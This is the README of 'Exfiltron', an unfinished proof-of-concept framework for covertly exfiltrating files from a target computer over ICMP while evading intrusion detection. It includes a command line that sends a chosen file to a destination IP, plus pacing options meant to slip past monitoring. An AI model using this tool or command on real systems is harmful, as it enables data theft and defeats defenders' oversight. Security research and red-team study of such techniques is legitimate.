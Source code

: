 # Exfiltron
Data Exfiltration Framework 

!!!! Please be aware that is project is in progress and may have parts missing
!!!!

## What does it do?
This framework is meant as a proof of concept for exfiltrating data 
from a target computer. YOU SHOULD NOT USE THIS ON ANYTHING YOU DO 
NOT OWN OR HAVE EXPLICIT PERMISSION TO USE IT ON. Exfiltron is meant to 
evade IDS in order to get data back to you.

## Things you must have before extraction time
* You must have python 2 installed on both the server and the client side
* You must have scapy installed on both the server and the client side

## Sounds great! How do I try it out?
First, get it on your local machine. There are two major files: the client
file (exfiltron.py) and the server file. The client file must be placed on
a target machine along with any modules you wish to use for your extraction
method. SET UP THE SERVER SIDE INFORMATION HERE. After exfiltron.py has
been placed on the target machine, run the following command:

`python exfiltron.py exfiltrationMethod -f filename -d destinationIP [-h] 
[-a]`

* -h is help
* -a (--data-per-packet) is the amount of data you want to fit into each packet.
The default is the number of bytes that normally sit in that packet while the
min amount is 1 byte and the max amount is the MTU minus the size of the packet
* -t (--time) specifies the amount of time to wait between after sending a packet
before sending another packet. This numerical value should be given in terms of
seconds. If no value is explicitly set, exfiltron defaults the value to 5 seconds

## Methods of Exfiltration
Currently, the following methods of exfiltration are available/in progress:
* ICMP

#### Original Authors
* Adam Sowden
* Andrew Steiner
* Thomas Daniels
